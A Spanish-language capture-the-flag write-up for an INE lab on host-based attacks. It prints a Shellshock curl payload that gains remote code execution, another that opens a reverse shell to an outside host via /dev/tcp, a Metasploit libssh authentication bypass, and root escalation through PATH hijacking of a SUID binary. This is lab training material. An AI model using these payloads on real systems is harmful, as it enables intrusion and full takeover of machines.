# System-Host Based Attacks CTF 2

- FLAG1
```bash
sudo nmap -p- -sCV --min-rate=5000 -n target1.ine.local -oN scanNmap1.txt
```



Nada entrar a la página nos redirige a un */browser.cgi*, esto huele a un ataque de **Shell Shock**
```bash
nmap --script http-shellshock --script-args "http-shellshock.uri=/browser.cgi" target1.ine.local
```



Para ver por qué interfaz se está comunicando el lab con los target1 y target2 podemos usar
```bash
cat /etc/hosts
```



```bash
ip route get 192.198.111.3
```



**eth1**

Vamos a explotar el Shellshock attack
```bash
curl -s -X GET "http://target1.ine.local/browser.cgi" -H "User-Agent: () { :; };echo; /usr/bin/whoami"
```



Tenemos RCE

Nos lanzamos una shell
```bash
curl -s -X GET "http://target1.ine.local/browser.cgi" -H "User-Agent: () { :; };echo; /bin/bash -c '/bin/bash -i >&/dev/tcp/192.198.111.2/443 0>&1'"
```

daemon

Encontramos la flag en */*

- FLAG2

La siguiente flag se nos dice que la encontraremos buscando detenidamente en */opt/apache/htdocs*



- FLAG3

Se nos dice "Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local"

```bash
sudo nmap -p- -sCV --min-rate=5000 -n target2.ine.local -oN scanNmap2.txt
```



Buscamos exploits como metasploit



Seleccionamos el exploit y lo ejecutamos
- CMD = */bin/bash*
- RHOSTS = target2.ine.local



user

Encontramos la flag en */home/user*

- FLAG3

Vemos un binario **welcome** con SUID
Consultamos sus strings y vemos *greetings* y *system*
- Podría ser que esté ejecutando con **system()** el archivo privilegiado **greetings**

Vamos a intentar un Path Hijacking añadiendo la ruta */tmp* y creando un archivo *greetings* que se ejecute y ejecute código malicioso al llamar a **welcome**



Añadimos una */bin/bash* para que lo ejecute root y le damos permisos de ejecución



- Podríamos haberlo hecho borrando *greetings* con
```bash
rm -f grertings
```

y creando un nuevo archivo **greetings** con */bin/bash* dentro

La flag está en */root*
